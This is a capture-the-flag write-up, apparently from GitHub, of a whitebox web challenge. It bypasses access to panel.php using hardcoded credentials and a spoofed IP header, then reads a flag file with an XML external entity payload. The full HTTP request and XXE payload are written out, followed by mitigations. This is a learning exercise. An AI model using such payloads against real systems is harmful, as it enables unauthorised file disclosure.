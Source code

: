 ## WhiteBox Penetration Test – Internal Web Application

This challenge demonstrates the XML external entity vulnerability that allows an attacker to interfere with an application's processing of XML data.

Challenge Credit: Devnull X ZedBounty

### Scenario

Vivacell is days away from launching their flagship bio-tech platform: Everything looks perferct on paper, but engineers keep encountering anomalies that vanish before they csn be logged. Management call it a glitch. The lead developer calls it "impossible." Youve been quietly invited to validate the system before it goes live. No headlines. No panic. Just you,the code, and whatever its hiding.

### Tools Used
- Burp Suite
- Curl
- Mozilla Firefox
- XML Payloads (Payloadallthings)
- DomDocument analysis

**Environment**
![Screenshot_2025-05-05_13_36_35](https://github.com/user-attachments/assets/f062c120-325b-47f0-ab35-82652efe44c7)

 
 **Configuration Files (zip file)**
  
![Screenshot_2025-05-05_15_46_47](https://github.com/user-attachments/assets/da670ee4-741d-49c0-84b1-d591dfbbd262)


  *Panel.php is an interesting file*


### Key Findings

**1. Access Control bypass**

Upon trying to access panel.php on the live web server our access was denied. 

Something already smells vulnerable.....lol

![Screenshot_2025-05-05_15_56_47](https://github.com/user-attachments/assets/3be39ff4-0084-47eb-b2a5-064c451f87ef)

  
- Hardcoded credentials discovered via *panel.php* file.....bullseye!
  
  
  ![cred](https://github.com/user-attachments/assets/0e8ee05e-73ec-4911-9893-8ba698b11f81)

- Lets take out the big guns now......Burpsuite!
  
    --> Intercept request with proxy
  
    --> Insert credentials and spoofed IP in HTTP Header.
  
    --> forward request

  
  ![Screenshot_2025-05-05_14_46_34](https://github.com/user-attachments/assets/878e17fb-3584-49c0-b823-fd9ab6d8b948)
  

  - Panel.php is now accessible
    
    ![Screenshot_2025-05-05_14_12_23](https://github.com/user-attachments/assets/992309f8-18b6-4d8f-baff-757cc84638d8)
    

    *......Sweeeeet!*

**2. Vulnerability Discovery (XXE)**

XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. - Portswigger

Whats basically happening is the server is able to recieve external data (In the form of XML) and processes this data without proper handling hence the parser expands the input and reveals files on the server.

Classification: XML External Entity (XXE) Injection

Impact: High/severe 

 --> Send request to Burp repeater

 --> Change method from GET to POST

 --> Content type to application/xml

 --> Insert test payload in message body


![Screenshot_2025-05-05_14_24_41](https://github.com/user-attachments/assets/2139a878-a07a-4ecf-9284-3390de2de149)

 *DomDocument::loadXML() is an interesting find*

 **3. Exploit**
 
 The panel.php endpoint accepts XML input via POST with the header Content-Type: application/xml. 
 
 --> Open Burp Repeater

 --> Change the request method GET to POST

POST /panel.php?username=v1v4c3ll4dm1n&password=v1va_la_v1da@123 HTTP/1.1
 
Host: challenge.zedbounty.com

X-VIVACELL-VPN: 41.18.611.104

Content-Type: application/xml

Connection: close

--> Paste the payload in the message body

```xml &lt;?
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///flag.txt">
]>
<data>
    <health>&xxe;</health>
    <temperature>420</temperature>
    <pressure>1337</pressure>
    <control_rods>Lowered</control_rods>
    <radiation_level>5.4</radiation_level>
    <coolant_level>87</coolant_level>
    <power_input>900</power_input>
    <emergency_shutdown>false</emergency_shutdown>
</data>
```
---> How it was sent in Burp

![Screenshot_2025-05-06_14_21_15](https://github.com/user-attachments/assets/e4936b49-0fe0-4a9a-b891-45a23315f087)


--> Check The response tab

*Viola.......Flag Captured: **ZB{xx3_ch3mic4l_r3act1on}***


### 4. Mitigation
- Validate or sanitize incoming XML payloads.

- Disable entity Loading.

- Restrict LIBXML_NOENT usage.

### 5. Lessons Learned
- Bypassing directory access controls using HTTP Header requests
  
- DOMDocument::loadXML() parser when used with LIBXML_NOENT can expose sensitive files on the web server

- IP Spoofing to bypass authentication with hardcoded credentials

### Thank you.....
